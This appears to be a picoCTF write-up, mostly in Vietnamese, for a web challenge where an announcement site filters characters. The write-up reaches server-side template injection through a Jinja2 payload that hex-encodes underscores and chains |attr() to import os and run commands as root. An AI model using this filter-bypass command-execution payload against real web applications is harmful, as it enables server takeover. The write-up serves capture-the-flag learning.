





# Overview 
Category: [Web Exploitation]()

AUTHOR: Venax

# Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
Additional details will be available after launching your challenge instance.

# Solution
- Do hint là "Server Side Template Injection" ta thử với payload đơn giản 
```
{{7*7}}
```



- Kết quả trả về chứng tỏ bị SSTI 

- Đọc các file có hiện tại bằng payload như SSTI1 nhưng server đã filter nên payload không được thực thi (dự đoán là filter "_" và "." còn dấu nháy đơn , dấu nháy kép vẫn hoạt động bình thường với các payload)



- Kết quả trả về "Stop trying to break me >:("
- Sau khi tìm cách bypass thì tìm được payload trên [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md) :
```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

- Payload trên đã encode "_" thành x5f và Sử dụng "|attr()"để truy cập các thuộc tính mà không cần dùng dấu "."
- Flow payload :
Truy cập từ request ➔ lấy application ➔ lấy __globals__ ➔ lấy __builtins__ ➔ dùng __import__('os') ➔ os.popen('id') ➔ .read()

- Payload được thực thi với người dùng root



- Thực hiện đọc các file và lấy flag




>Flag : **picoCTF{sst1_f1lt3r_byp4ss_ece726e9}**